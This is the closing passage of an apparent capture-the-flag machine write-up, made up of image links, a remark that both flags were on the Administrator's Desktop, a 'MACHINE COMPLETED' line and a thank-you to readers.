

Both user and root flags were accessible in the Administrator’s Desktop directory.



MACHINE COMPLETED



Thank you for reading! We learnt a lot :)
